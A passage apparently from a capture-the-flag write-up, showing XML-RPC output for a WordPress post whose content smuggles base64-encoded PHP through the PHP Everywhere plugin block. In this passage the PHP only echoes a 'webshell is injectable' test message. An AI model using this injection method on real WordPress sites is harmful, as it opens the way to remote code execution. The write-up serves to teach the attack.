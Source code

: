 ```bash
  definition: {'id': 'post_id', 'user': 'post_author', 'date': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffaaed0390>, 'date_modified': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffaaed0450>, 'slug': 'post_name', 'post_status': 'post_status', 'title': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffaaed04d0>, 'content': 'post_content', 'excerpt': 'post_excerpt', 'link': 'link', 'comment_status': 'comment_status', 'ping_status': 'ping_status', 'terms': <wordpress_xmlrpc.fieldmaps.TermsListFieldMap object at 0xffffaaed0490>, 'terms_names': 'terms_names', 'custom_fields': 'custom_fields', 'enclosure': 'enclosure', 'password': 'post_password', 'post_format': 'post_format', 'thumbnail': 'post_thumbnail', 'sticky': 'sticky', 'post_type': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffaaed0550>, 'parent_id': 'post_parent', 'menu_order': <wordpress_xmlrpc.fieldmaps.IntegerFieldMap object at 0xffffaaed0510>, 'guid': 'guid', 'mime_type': 'post_mime_type'}
  excerpt: 
  guid: /?p=47
  id: 47
  link: /index.php/2024/12/01/php-injection-test/
  menu_order: 0
  mime_type: 
  parent_id: 0
  password: 
  ping_status: open
  post_format: standard
  post_status: publish
  post_type: post
  slug: php-injection-test
  sticky: False
  struct: {'post_id': '47', 'post_author': '1', 'post_date_gmt': <DateTime '20241201T10:24:27' at 0xffffaaedff10>, 'post_modified_gmt': <DateTime '20241201T10:24:27' at 0xffffaaedff90>, 'post_name': 'php-injection-test', 'post_status': 'publish', 'post_title': 'PHP Injection Test', 'post_content': '<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->', 'post_excerpt': '', 'link': '/index.php/2024/12/01/php-injection-test/', 'comment_status': 'closed', 'ping_status': 'open', 'terms': {'category': [1]}, 'custom_fields': [], 'post_password': '', 'post_format': 'standard', 'post_thumbnail': [], 'sticky': False, 'post_type': 'post', 'post_parent': '0', 'menu_order': 0, 'guid': '/?p=47', 'post_mime_type': ''}
  terms: [<WordPressTerm: b'Uncategorized'>]
  thumbnail: []
  title: PHP Injection Test
  user: 1
========================================
```

It shows the address of the new post page : `/index.php/2024/12/01/php-injection-test`.
Let's visit this page to see what's in it!

![](attachments/pressed_9.png)
